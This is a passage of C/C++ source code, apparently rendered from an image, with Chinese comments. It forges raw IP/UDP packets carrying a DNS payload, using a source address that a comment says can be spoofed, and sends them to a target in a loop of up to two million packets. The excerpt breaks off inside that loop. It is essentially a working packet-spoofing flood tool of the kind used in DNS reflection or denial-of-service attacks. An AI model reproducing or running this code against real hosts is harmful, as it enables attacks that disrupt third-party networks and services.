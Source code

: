 ```c
	sin.sin_addr.s_addr = inet_addr(argv[1]);
	din.sin_addr.s_addr = inet_addr(argv[3]);
 
	// Fabricate the IP header or we can use the
	// standard header structures but assign our own values.
	ip->ihl = 5;
	ip->version = 4;//报头长度，4*32=128bit=16B
	ip->tos = 0; // 服务类型
	ip->tot_len = ((sizeof(struct iphdr) + sizeof(struct udphdr)+sizeof(DNS)));
	//ip->id = htons(54321);//可以不写
	ip->ttl = 64; // hops生存周期
	ip->protocol = 17; // UDP
	ip->check = 0;
	// Source IP address, can use spoofed address here!!!
	ip->saddr = inet_addr(argv[1]);
	// The destination IP address
	ip->daddr = inet_addr(argv[3]);
 
	// Fabricate the UDP header. Source port number, redundant
	udp->source = htons(atoi(argv[2]));//源端口
	// Destination port number
	udp->dest = htons(atoi(argv[4]));//目的端口
	udp->len = htons(sizeof(struct udphdr)+sizeof(DNS));//长度
	//forUDPCheckSum用来计算UDP报文的校验和用
	//UDP校验和需要计算 伪头部、UDP头部和数据部分
	char * forUDPCheckSum = new char[sizeof(UDP_PSD_Header) + sizeof(udphdr)+sizeof(DNS)+1];
	memset(forUDPCheckSum, 0, sizeof(UDP_PSD_Header) + sizeof(udphdr) + sizeof(DNS) + 1);
	UDP_PSD_Header * udp_psd_Header = (UDP_PSD_Header *)forUDPCheckSum;
	udp_psd_Header->src = inet_addr(argv[1]);
	udp_psd_Header->des = inet_addr(argv[3]);
	udp_psd_Header->mbz = 0;
	udp_psd_Header->ptcl = 17;
	udp_psd_Header->len = htons(sizeof(udphdr)+sizeof(DNS));
	memcpy(forUDPCheckSum + sizeof(UDP_PSD_Header), udp, sizeof(udphdr));
	memcpy(forUDPCheckSum + sizeof(UDP_PSD_Header) + sizeof(udphdr), DNS, sizeof(DNS));
 
	//ip->check = csum((unsigned short *)ip, sizeof(iphdr)/2);//可以不用算
	//计算UDP的校验和，因为报文长度可能为单数，所以计算的时候要补0
	udp->check = csum((unsigned short *)forUDPCheckSum,(sizeof(udphdr)+sizeof(UDP_PSD_Header)+sizeof(DNS)+1)/2);
 
	setuid(getpid());//如果不是root用户，需要获取权限	
 
	// Send loop, send for every 2 second for 2000000 count
	printf("Trying...\n");
	printf("Using raw socket and UDP protocol\n");
	printf("Using Source IP: %s port: %u, Target IP: %s port: %u.\n", argv[1], atoi(argv[2]), argv[3], atoi(argv[4]));
	std::cout << "Ip length:" << ip->tot_len << std::endl;
	int count;
	//将DNS报文拷贝进缓存区
	memcpy(buffer + sizeof(iphdr) + sizeof(udphdr), DNS, sizeof(DNS));
	
	for (count = 1; count <= 2000000; count++)
	{
		
		if (sendto(sd, buffer, ip->tot_len, 0, (struct sockaddr *)&din, sizeof(din)) < 0)
			// Verify
		{
			perror("sendto() error");
			exit(-1);
		}
		else
```